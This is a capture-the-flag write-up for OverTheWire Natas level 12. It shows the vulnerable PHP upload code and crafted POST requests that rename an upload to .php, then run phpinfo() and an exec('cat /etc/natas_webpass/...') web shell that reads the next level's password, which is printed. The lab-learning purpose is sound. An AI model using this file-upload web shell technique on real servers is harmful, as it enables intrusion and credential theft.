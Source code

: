 ```yaml
---
layout: post
title:  "OverTheWire Wargames :: Natas :: Level 12"
date:   2015-09-19
---
```


[OverTheWire: Natas](http://overthewire.org/wargames/natas/)

## Level 12 > Level 13

![natas12-01](/img/otw-natas/natas12-01.png)

```
[...]
<h1>natas12</h1>
<div id="content">
<? 

function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>

<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<? } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>

```

Run it once normally to see how it behaves.  Uploading a tiny image of a Thor hammer I found online results in the following POST request body and response.

```
-----------------------------58323604319210243021201378353
Content-Disposition: form-data; name="MAX_FILE_SIZE"

1000
-----------------------------58323604319210243021201378353
Content-Disposition: form-data; name="filename"

u117acfgc6.jpg
-----------------------------58323604319210243021201378353
Content-Disposition: form-data; name="uploadedfile"; filename="thor.jpg"
Content-Type: image/jpeg

[...]
-----------------------------58323604319210243021201378353--
```

```
<h1>natas12</h1>
<div id="content">
The file <a href="upload/qtqgaelc6b.jpg">upload/qtqgaelc6b.jpg</a> has been uploaded<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
```

A visit to `upload/qtqgaelc6b.jpg` confirms the image was uploaded as intended.

![natas12-02](/img/otw-natas/natas12-02.png)

The name `u117acfgc6.jpg` was generated by the following line of code in the page.

```
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />
```

It is passed to the server in the POST request, meaning we can submit our own value rather than what would be returned by `genRandomString()`.  Also, this means we don't need to use `.jpg` as the extension.  There is no evidence to suggest that the file is verified to be a `jpg` in any way, either.

Test this theory by uploading and viewing a text file.

```
-----------------------------58323604319210243021201378353
Content-Disposition: form-data; name="MAX_FILE_SIZE"

1000
-----------------------------58323604319210243021201378353
Content-Disposition: form-data; name="filename"

himom.txt
-----------------------------58323604319210243021201378353
Content-Disposition: form-data; name="uploadedfile"; filename="thor.jpg"

hi mom
-----------------------------58323604319210243021201378353--
```

```
<div id="content">
The file <a href="upload/z2xt622p6y.txt">upload/z2xt622p6y.txt</a> has been uploaded<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
```

![natas12-03](/img/otw-natas/natas12-03.png)

The next thing to wonder is if we can 'upload' a php file and execute it...

```
-----------------------------58323604319210243021201378353
Content-Disposition: form-data; name="MAX_FILE_SIZE"

1000
-----------------------------58323604319210243021201378353
Content-Disposition: form-data; name="filename"

shitsgoingdown.php
-----------------------------58323604319210243021201378353
Content-Disposition: form-data; name="uploadedfile"; filename="thor.jpg"

<?php phpinfo(); ?>
-----------------------------58323604319210243021201378353--
```

```
<div id="content">
The file <a href="upload/hhbhtomk6e.php">upload/hhbhtomk6e.php</a> has been uploaded<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
```

![natas12-04](/img/otw-natas/natas12-04.png)

Yep, it's over.

```
-----------------------------58323604319210243021201378353
Content-Disposition: form-data; name="MAX_FILE_SIZE"

1000
-----------------------------58323604319210243021201378353
Content-Disposition: form-data; name="filename"

ohcrap.php
-----------------------------58323604319210243021201378353
Content-Disposition: form-data; name="uploadedfile"; filename="thor.jpg"

<?php echo exec("cat /etc/natas_webpass/natas13"); ?>
-----------------------------58323604319210243021201378353--
```

```
<div id="content">
The file <a href="upload/a7vs4em78m.php">upload/a7vs4em78m.php</a> has been uploaded<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
```

![natas12-05](/img/otw-natas/natas12-05.png)

jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY

Thanks to my co-worker Dejan who said something like "I wonder if you can upload a PHP file?!" near me while I was doing this.
